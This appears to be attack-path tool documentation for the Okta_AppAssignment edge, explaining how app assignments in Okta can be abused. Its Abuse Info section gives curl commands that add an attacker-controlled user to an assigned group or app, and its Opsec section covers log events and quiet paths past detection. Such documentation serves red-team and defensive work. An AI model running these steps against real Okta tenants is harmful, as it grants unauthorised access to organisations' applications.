

## General Information

Only users that are assigned to applications can access them. Users can be assigned to applications directly or indirectly through group memberships.

The non-traversable Okta_AppAssignment edges represent the application assignments for users and groups in Okta:


```mermaid
graph LR
    u1("Okta_User john\@contoso.com")
    u2("Okta_User steve\@contoso.com")
    u3("Okta_User mary\@contoso.com")
    u4("Okta_User bob\@contoso.com")
    u5("Okta_User alice\@contoso.com")
    g1("Okta_Group Engineering")
    e("Okta_Group Everyone")
    a1("Okta_Application SalesForce")
    a2("Okta_Application GitHub")
    a3("Okta_Application VPN")
    e -. Okta_AppAssignment .-> a1
    u1 -- Okta_MemberOf --> e
    u2 -- Okta_MemberOf --> e
    u3 -- Okta_MemberOf --> e
    u4 -- Okta_MemberOf --> e
    u3 -- Okta_MemberOf --> g1
    u4 -- Okta_MemberOf --> g1
    g1 -. Okta_AppAssignment .-> a2
    u4 -. Okta_AppAssignment .-> a3
    u5 -. Okta_AppAssignment .-> a3
```

## Abuse Info

This edge describes assignment to an application. An attacker who controls the source user can usually access the destination application through Okta. An attacker who controls the source group can add an attacker-controlled user to that group, then inherit the application assignment through the `Okta_MemberOf` relationship. The edge is non-traversable because assignment alone is not proof of downstream privilege, but it is often the bridge that turns user or group control into SaaS access.

For a user source, authenticate as the source user. For a group source, first become a member of the source group through an adjacent edge such as `Okta_AddMember`, `Okta_GroupMembershipAdmin`, `Okta_GroupAdmin`, or `Okta_OrgAdmin`. After the assignment is active, refresh Okta sessions or request new tokens so group and app claims are evaluated.

Using the Admin Console and Okta dashboard:

1. Identify whether the source of the edge is an `Okta_User` or an `Okta_Group`.
2. If the source is a group, sign in to the Admin Console with a principal that can manage that group and add the attacker-controlled Okta user to it.
3. Sign in as the assigned user or attacker-controlled group member.
4. Open the Okta end-user dashboard and launch the destination application, or start SP-initiated SSO from the downstream application.
5. Complete any sign-on policy, MFA, device, or network requirements.
6. Use the resulting downstream session. If the application maps Okta groups to app roles, combine this edge with the relevant group membership path before launching the app.

Using the Okta API:

1. Set the Okta org URL, API credential, destination application ID, and source user or group ID. If the source is a group, set the attacker-controlled user ID that will be added to that group.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_APP_ID="0oa..."
    export SOURCE_USER_ID="00u..."
    export SOURCE_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    export CONTROLLED_USER_LOGIN="alice@contoso.com"
    ```

2. If the source is a user assignment, verify that the user is assigned to the destination application.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID" \
      | jq '{id, status, scope, syncState, credentials, profile}'
    ```

    A successful response returns the application user object. A `404 Not Found` response means the user is not directly assigned to that application.

3. If the source is a group assignment, verify that the group is assigned to the destination application.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/groups/$SOURCE_GROUP_ID" \
      | jq '{id, priority, profile}'
    ```

4. Add the attacker-controlled user to the assigned source group when the abuse path depends on group assignment.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

    A successful request returns `204 No Content`.

5. Confirm that Okta now resolves the controlled user as an application user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$CONTROLLED_USER_ID" \
      | jq '{id, status, scope, syncState, profile}'
    ```

6. Start a fresh browser session as the controlled user and launch the destination app. The Management API can confirm assignment, but the downstream SSO session is created through the interactive OIDC, SAML, or app-specific sign-on flow.

If the attacker also has application administration privileges, they can assign a controlled user directly to the app instead of relying on a group:

```bash
curl -sS -X POST \
  -H "Authorization: SSWS $OKTA_API_TOKEN" \
  -H "Accept: application/json" \
  -H "Content-Type: application/json" \
  -d "{\"id\":\"$CONTROLLED_USER_ID\",\"scope\":\"USER\",\"credentials\":{\"userName\":\"$CONTROLLED_USER_LOGIN\"}}" \
  "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users" \
  | jq '{id, status, scope, syncState, profile}'
```

## Cleanup after Abuse

Cleanup for `Okta_AppAssignment` means removing the temporary app-access path, clearing sessions or tokens that contain the assignment, and deleting any downstream account or role created only because the app was launched.

Cleanup using Admin Console:

1. Open **Applications** > **Applications** and select the destination application.
2. Remove the temporary direct user assignment if one was created.
3. Remove the temporary group assignment only if the whole app-to-group assignment was created for the operation.
4. If access was inherited through an existing group assignment, open **Directory** > **Groups** and remove the attacker-controlled user from the source group instead.
5. Revoke the user's Okta sessions from the user's profile if group or app claims should be invalidated immediately.
6. Sign out of the downstream application and revoke downstream sessions, API tokens, refresh tokens, or JIT-provisioned accounts where the application supports it.

Cleanup using API:

1. Remove a temporary direct app assignment.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$CONTROLLED_USER_ID"
    ```

    A successful removal returns `204 No Content`.

2. Remove a temporary app-to-group assignment if the group should no longer be assigned to the application.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/groups/$SOURCE_GROUP_ID"
    ```

3. If the group assignment should remain, remove only the temporary group member.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Revoke Okta sessions and OAuth tokens for the controlled user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the assignment path is gone.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$CONTROLLED_USER_ID"
    ```

    The expected result is `404 Not Found` when no direct or inherited app assignment remains.

## Opsec Considerations

Adding or removing app assignments creates application membership activity such as `application.user_membership.add`, `application.user_membership.remove`, and `application.user_membership.update`. Adding a user to a source group creates `group.user_membership.add`; removing that user creates `group.user_membership.remove`.

The quietest path is often using an existing assignment and an already-compromised assigned user, but first-time SSO to a sensitive application, unusual source IPs, new devices, and newly minted group or app claims can still be detected by Okta and the downstream app. Direct app assignment immediately before access is a high-signal sequence for defenders.

## References

- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Application Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationGroups/)
- [Okta Group API: Assign and unassign users](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
